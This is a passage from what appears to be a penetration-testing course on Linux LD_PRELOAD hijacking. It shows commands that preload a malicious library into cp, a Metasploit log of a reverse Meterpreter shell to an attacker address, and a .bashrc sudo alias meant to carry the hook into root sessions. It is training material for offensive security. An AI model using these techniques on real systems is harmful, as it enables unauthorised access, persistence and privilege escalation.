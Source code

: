 Now that our library is compiled, let's do a test. After setting up a Meterpreter listener for our shellcode, we'll run cp once without our library and then once with the _LD_PRELOAD_ environment variable set, hooking the function call.

```
offsec@linuxvictim:~$ cp /etc/passwd /tmp/testpasswd

offsec@linuxvictim:~$ export LD_PRELOAD=/home/offsec/evil_geteuid.so

offsec@linuxvictim:~$ cp /etc/passwd /tmp/testpasswd
HACK: returning from function...
```

> Listing 68 - Executing our payload

It worked! We find in our Metasploit listener that our shell successfully connected.

```
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.119.120:1337 
[*] Sending stage (3012516 bytes) to 192.168.120.46
[*] Meterpreter session 8 opened (192.168.119.120:1337 -> 192.168.120.46:58114) at 2020-07-28 16:58:40 -0400

meterpreter > getuid
Server username: no-user @ linuxvictim (uid=1000, gid=1000, euid=1000, egid=1000)
```

> Listing 69 - Received a shell

This is a great step, but we're still executing as the _offsec_ user. We haven't elevated our privileges. Let's try that next.

Before continuing, we'll unset _LD_PRELOAD_ which could have adverse effects on other system actions we'll perform.

```
offsec@linuxvictim:~$ unset LD_PRELOAD
```

> Listing 70 - Clearing LD_PRELOAD

Now that we've got it working, let's talk about privilege escalation with this method.

As we mentioned previously, the dynamic linker ignores _LD_PRELOAD_ when the user's effective UID (EUID) does not match its real UID, for example when running commands as sudo. We might be lucky and have _env_keep+=LD_PRELOAD_ set in /etc/sudoers, but it's not likely. The _env_keep_ setting specifically allows certain environment variables to be passed into the sudo session when calls are made. By default this is turned off.

We could try our previous approach of defining a sudo alias for the user, but a quick test indicates that our code isn't executed. In this case, we need to explicitly set _LD_PRELOAD_ when calling sudo, which we can do in the alias in .bashrc.

```
alias sudo="sudo LD_PRELOAD=/home/offsec/evil_geteuid.so"
```
